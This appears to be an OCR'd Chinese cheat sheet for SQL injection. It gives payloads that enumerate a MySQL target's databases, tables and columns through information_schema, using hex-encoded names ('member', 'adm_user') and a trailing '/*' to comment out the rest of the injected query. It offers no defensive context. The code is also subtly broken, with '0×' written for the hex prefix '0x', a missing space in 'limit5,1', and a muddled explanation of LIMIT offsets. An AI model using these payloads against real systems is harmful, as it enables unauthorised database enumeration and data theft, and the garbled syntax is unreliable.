      乱入一个数据库爆库爆表爆字段。。

     首先介绍一下的是爆库
     `select SCHEMA_NAME from  information_schema.SCHEMATA  limit 1,5/*5,1`表示从第1个开始，数到第5个
     然后就是爆表
     `select TABLE_NAME  from  information_schema.TABLES   where TABLE_SCHEMA=0×6D656D626572 limit5,1/*TABLE_SCHEMA=后面是库名的16进制`
     再来爆字段
     `select  COLUMN_NAME  from  information_schema.COLUMNS where TABLE_NAME=0×61646D5F75736572 limit 5,1/*`